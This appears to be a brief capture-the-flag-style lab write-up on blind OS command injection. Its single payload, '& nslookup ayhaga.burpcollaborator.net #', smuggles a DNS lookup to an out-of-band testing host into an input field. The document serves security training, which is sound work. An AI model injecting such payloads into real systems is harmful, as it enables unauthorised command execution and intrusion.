 # Lab: Blind OS command injection with out-of-band interaction

Target - Exploit command injection to issue a DNS lookup to Burp Collaborator

Analysis :

& nslookup ayhaga.burpcollaborator.net #
